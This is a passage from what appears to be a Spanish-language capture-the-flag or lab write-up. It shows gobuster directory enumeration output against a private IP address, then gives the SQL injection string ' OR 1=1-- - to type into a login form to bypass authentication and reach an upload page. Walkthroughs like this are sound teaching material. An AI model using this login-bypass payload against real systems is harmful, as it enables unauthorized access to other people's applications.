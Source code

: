 Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.159/masteradmin
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.html       (Status: 403) [Size: 278]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/css                  (Status: 403) [Size: 278]
/db.php               (Status: 200) [Size: 0]
/fonts                (Status: 403) [Size: 278]
/images               (Status: 403) [Size: 278]
/js                   (Status: 403) [Size: 278]
/login.php            (Status: 200) [Size: 5137]
/upload.php           (Status: 200) [Size: 1440]
/vendor               (Status: 403) [Size: 278]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un `login.php`, por lo que si nos metemos dentro aparecera un panel de login, si en el campo de `usuario` metemos lo siguiente...

```mysql
' OR 1=1-- -
```

Haciendo `SQL Injection` y en el campo de la `password` le metemos lo que sea, nos llevara automaticamente a la siguiente `URL`...

```
URL = http://<IP>/masteradmin/upload.php
```
